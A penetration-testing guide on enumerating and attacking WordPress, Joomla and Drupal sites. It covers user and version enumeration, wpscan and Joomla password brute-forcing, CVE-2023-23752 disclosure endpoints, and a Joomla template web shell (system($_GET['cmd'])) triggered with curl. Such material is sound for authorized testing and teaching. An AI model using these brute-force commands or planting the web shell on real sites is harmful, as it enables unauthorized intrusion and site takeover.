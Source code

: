 ```yaml
---
description: How to test for security flaws in Content Management Systems
---
```


# Guide



## Wordpress



### Enumeration

Version: View the source code and search for 'wordpress' or look for 'style.min.css'\
Plugins: look for $$/wp-content/plugins/$$ if there is a directory listing vulnerability then we can see the plugins or else we have to fuzz the directory  `/wp-content/plugins/FUZZ` \
Upload File: uploaded files go to `/wp-content/uploads/2024/08/a.txt`  (year/month)\
Login folders (may be renamed to hide it):

* `/wp-admin/login.php`
* `/wp-admin/wp-login.php`
* `/login.php`
* `/wp-login.php`

### Users <a href="#users" id="users"></a>

**ID Brute**

You get valid users from a WordPress site by Brute Forcing users IDs:

```
curl -s -I -X GET http://blog.example.com/?author=1
```

If the responses are **200** or **30X**, that means that the id is **valid**. If the the response is **400**, then the id is **invalid**.

**wp-json**

You can also try to get information about the users by querying:

```
curl http://blog.example.com/wp-json/wp/v2/users
```

Another `/wp-json/` endpoint that can reveal some information about users is:

```
curl http://blog.example.com/wp-json/oembed/1.0/embed?url=POST-URL
```

This endpoint only exposes users that have made a post&#x20;

_`/wp-json/wp/v2/pages`_ could leak IP addresses.



**Login username enumeration**

When login in _`/wp-login.php`_ the message is different is the indicated username exists or not.

#### Automatic Tools <a href="#automatic-tools" id="automatic-tools"></a>

{% code overflow="wrap" lineNumbers="true" %}
```
cmsmap -s http://www.domain.com -t 2 -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0".
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url http://www.domain.com [--plugins-detection aggressive] --api-token <API_TOKEN> --passwords /usr/share/wordlists/external/SecLists/Passwords/probable-v2-top1575.txt #Brute force found users and search for vulnerabilities using a free API token (up 50 searchs).
#You can try to bruteforce the admin user using wpscan with "-U admin".
```
{% endcode %}

## Joomla

### Enumeration <a href="#discovery-footprinting" id="discovery-footprinting"></a>

* Check the **meta**

```
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```

* README.txt

{% code overflow="wrap" %}
```
1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
{% endcode %}

**Version**

* In **/administrator/manifests/files/joomla.xml** you can see the version.
* In **/language/en-GB/en-GB.xml** you can get the version of Joomla.
* In **plugins/system/cache/cache.xml** you can see an approximate version.

#### Automatic <a href="#automatic" id="automatic"></a>

```
droopescan scan joomla --url http://joomla-site.local/
```

#### API Unauthenticated Information Disclosure: <a href="#api-unauthenticated-information-disclosure" id="api-unauthenticated-information-disclosure"></a>

Versions From 4.0.0 to 4.2.7 are vulnerable to Unauthenticated information disclosure (CVE-2023-23752) that will dump creds and other information.

* Users: `http://<host>/api/v1/users?public=true`
* Config File: `http://<host>/api/index.php/v1/config/application?public=true`

### Brute-Force <a href="#brute-force" id="brute-force"></a>

You can use this [script](https://github.com/ajnik/joomla-bruteforce) to attempt to brute force the login.

{% code overflow="wrap" %}
```
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
 
admin:admin
```
{% endcode %}

### RCE <a href="#rce" id="rce"></a>

If you managed to get **admin credentials** you can **RCE inside of it** by adding a snippet of **PHP code** to gain **RCE**. We can do this by **customizing** a **template**.

1. **Click** on _`Templates`_ on the bottom left under `Configuration` to pull up the templates menu.
2. **Click** on a **template** name. Let's choose _`protostar`_ under the `Template` column header. This will bring us to the _`Templates: Customise`_ page.
3. Finally, you can click on a page to pull up the **page source**. Let's choose the _`error.php`_ page. We'll add a **PHP one-liner to gain code execution** as follows:
   1. _`system($_GET['cmd']);`_
4. **Save & Close**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## DRUPAL

### Enumeration <a href="#discovery" id="discovery"></a>

* Check **meta**

```
curl https://www.drupal.org/ | grep 'content="Drupal'
```

* **Node**: Drupal **indexes its content using nodes**. A node can **hold anything** such as a blog post, poll, article, etc. The page URIs are usually of the form `/node/<nodeid>`.

```
curl drupal-site.com/node/1
```

Drupal supports **three types of users** by default:

1. _`Administrator`_: This user has complete control over the Drupal website.
2. _`Authenticated User`_: These users can log in to the website and perform operations such as adding and editing articles based on their permissions.
3. _`Anonymous`_: All website visitors are designated as anonymous. By default, these users are only allowed to read posts.

#### Version <a href="#version" id="version"></a>

Check `/CHANGELOG.txt`

{% hint style="warning" %}
Newer installs of Drupal by default block access to the `CHANGELOG.txt` and `README.txt` files.
{% endhint %}

#### Username enumeration <a href="#username-enumeration" id="username-enumeration"></a>

**Register**

In _/user/register_ just try to create a username and if the name is already taken it will be notified.

**Request new password**

If you request a new password for an existing username:

![](https://book.hacktricks.xyz/\~gitbook/image?url=https%3A%2F%2F129538173-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-L\_2uGJGU7AVNRcqRvEi%252F-M6KEGZVfXabQu4BekYj%252F-M6KEpyUUAMQPM-4\_iqs%252Fimage.png%3Falt%3Dmedia%26token%3Dcbaa1955-a1a0-43c9-8d42-903fb4131402\&width=768\&dpr=4\&quality=100\&sign=b5eaef7a3523d703c2f56ccac0f59e5af77f24a922a1e6a67ea68b69712276b2)

If you request a new password for a non-existent username:

![](https://book.hacktricks.xyz/\~gitbook/image?url=https%3A%2F%2F129538173-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-L\_2uGJGU7AVNRcqRvEi%252F-M6KEGZVfXabQu4BekYj%252F-M6KEzUg1O8OA8Ijhpzq%252Fimage.png%3Falt%3Dmedia%26token%3D7efd97c6-9fc6-48d5-a205-132ec6aaede3\&width=768\&dpr=4\&quality=100\&sign=4e5ade7f1d0cec9ceaa38624588624dd9ee09093bd169034455ae28f40243f67)

#### Get number of users <a href="#get-number-of-users" id="get-number-of-users"></a>

Accessing _/user/\<number>_ you can see the number of existing users, in this case is 2 as _/users/3_ returns a not found error:

![](https://book.hacktricks.xyz/\~gitbook/image?url=https%3A%2F%2F129538173-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-L\_2uGJGU7AVNRcqRvEi%252F-M6KEGZVfXabQu4BekYj%252F-M6KFGkeiEqBuqypkNJZ%252Fimage.png%3Falt%3Dmedia%26token%3D8d28ce06-b123-42e7-b974-c86643c94136\&width=768\&dpr=4\&quality=100\&sign=c2c5a1ed71f00c93b0d15097c4d0f7a4f54b40d48fea85a4e1ecc677fd8cf93b)![](https://book.hacktricks.xyz/\~gitbook/image?url=https%3A%2F%2F129538173-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-L\_2uGJGU7AVNRcqRvEi%252F-M6KEGZVfXabQu4BekYj%252F-M6KFKtUrYwmC845RYdD%252Fimage.png%3Falt%3Dmedia%26token%3Dd22e3bda-7a42-4937-8614-4a1ed32cc7a4\&width=768\&dpr=4\&quality=100\&sign=1c967869a7f7907e752fed7ccb27ac18e1675d5287205b357c838a7f64000309)

#### Hidden pages <a href="#hidden-pages" id="hidden-pages"></a>

**Fuzz `/node/$` where `$` is a number** (from 1 to 500 for example). You could find **hidden pages** (test, dev) which are not referenced by the search engines.



**Installed modules info**

```
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```

#### Automatic <a href="#automatic" id="automatic"></a>

```
droopescan scan drupal -u http://drupal-site.local
```



